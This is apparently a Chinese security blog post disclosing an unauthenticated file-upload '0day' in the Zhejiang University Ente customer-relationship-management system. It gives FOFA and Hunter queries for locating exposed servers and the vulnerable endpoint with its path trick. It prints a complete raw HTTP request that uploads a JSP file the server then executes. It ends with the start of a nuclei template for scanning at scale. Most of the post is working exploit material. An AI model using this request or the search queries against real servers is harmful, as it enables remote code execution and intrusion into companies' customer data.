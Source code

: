 # 原创
：  浙大恩特CRM文件上传0day

# 浙大恩特CRM文件上传0day

### 简介

浙大恩特客户资源管理系统是一款针对企业客户资源管理的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 资产收集

fofa：title=”欢迎使用浙大恩特客户资源管理系统”<br/> hunter：web.title=”欢迎使用浙大恩特客户资源管理系统”

### 漏洞复现

漏洞地址：/entsoft/CustomerAction.entphone;.js?method=loadFile，可以上传jsp等文件，并给出上传之后的地址。<br/> 数据报如下：

```
POST /entsoft/CustomerAction.entphone;.js?method=loadFile HTTP/1.1
Host: xxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=100BEE1C6DE1ED7BEF0C58564557C266; lang=zh-cn
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 10 Jun 2020 03:47:54 GMT
If-None-Match: W/"30144-1591760874831"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 199

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="as.jsp"
Content-Type: image/jpeg

&lt;%out.print("test");%&gt;
------WebKitFormBoundarye8FPHsIAq9JN8j2A--

```

<br/> 访问文件地址，可以看到jsp代码被解析了。

### nuclei验证

nuclei-poc：

```
id: zhedaenteCRM

info:
  name: zhedaenteCRM
  author: xxx
  severity: info
  description: description
  reference:
    - https://
  tags: tags

requests:
  - raw:
      - |-
        POST /entsoft/CustomerAction.entphone;.js?method=loadFile HTTP/1.1
        Host: {{Hostname}}
```